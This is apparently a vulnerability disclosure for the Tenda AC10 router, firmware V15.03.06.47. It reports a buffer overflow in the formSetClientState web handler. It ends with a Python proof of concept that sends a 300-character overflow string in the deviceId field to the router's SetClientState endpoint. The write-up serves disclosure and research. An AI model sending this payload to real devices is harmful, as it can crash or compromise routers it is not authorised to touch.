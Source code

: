 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetClientState

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:

![](11.png)

get value from deviceId ,and if deviceId and limitEn are not null, get into line 34, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/SetClientState"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload, 'limitEn': '1'})
```
